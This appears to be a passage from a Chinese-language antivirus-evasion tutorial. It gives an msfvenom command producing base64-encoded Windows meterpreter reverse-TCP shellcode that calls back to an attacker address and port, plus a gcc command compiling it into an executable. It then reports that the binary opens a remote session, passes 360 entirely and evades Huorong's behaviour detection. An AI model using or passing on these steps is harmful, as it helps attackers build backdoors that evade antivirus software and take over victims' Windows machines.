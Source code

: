 使用msf生成base64编码的shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=10.211.55.2 lport=3333  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。

使用gcc进行编译
```
gcc shellcode.c base64.c -o test.exe
```
执行，可正常上线，火绒静态查杀会报毒，但行为检测没有反应，360全通过。

![eaa9210af8db242d89350f9377507e9b](images/2020.03-bypass-03/30.png)

![e52000cdfb9099d46ca5d18c19bb5c8f](images/2020.03-bypass-03/31.png)
